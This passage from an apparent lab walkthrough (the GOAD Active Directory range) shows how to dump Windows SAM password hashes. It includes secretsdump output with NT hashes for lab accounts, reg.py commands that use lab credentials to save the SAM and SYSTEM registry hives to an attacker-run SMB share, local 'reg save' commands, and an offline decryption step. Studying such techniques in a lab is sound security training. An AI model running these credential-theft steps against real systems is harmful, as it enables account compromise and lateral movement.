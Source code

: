 ```bash
[*] Stopping service RemoteRegistry
```

## Security Account Manager (SAM) Database

- First secretdump retreive the SAM hashes :

```bash
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:0e181c6215bdbfd5b93917da349fc7cd:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
```

- Let's talk about the sam database.
- The Security Account Manager (SAM) is a database that is present on computers running Windows operating systems that stores user accounts and security descriptors for users on the local computer.
- The sam database is located at : C:\Windows\System32\config\SAM and is mounted on registry at HKLM/SAM
- To be able to decrypt the data you need the contains of the system file located at C:\Windows\System32\config\SYSTEM  and is available on the registry at HKLM/SYSTEM.
- SecretDump get the contains of HKLM/SAM and HKLM/SYSTEM and decrypt the contains.

- We dumped the sam database with secretsdump but we can also do that with the following commands :
```bash
smbserver.py -smb2support share .  # start a server to get the result
reg.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SAM' -o '\\192.168.56.1\share'
reg.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SYSTEM' -o '\\192.168.56.1\share'
```

- Or directly on our windows shell:
```cmd
reg save HKLM\SAM c:\sam
reg save HKLM\SYSTEM c:\system
```

>With SAM and SYSTEM we get the contains of the LM and NT hashs stored in the sam database.
{: .prompt-tip }

>The SAM database contains all the local accounts
{: .prompt-info }

- secretsdump got a command to decrypt the sam contains with the files we download :

```bash
secretsdump -sam SAM.save -system SYSTEM.save LOCAL
```

![lateral_hashdump.png](/assets/blog/GOAD/lateral_hashdump.png)
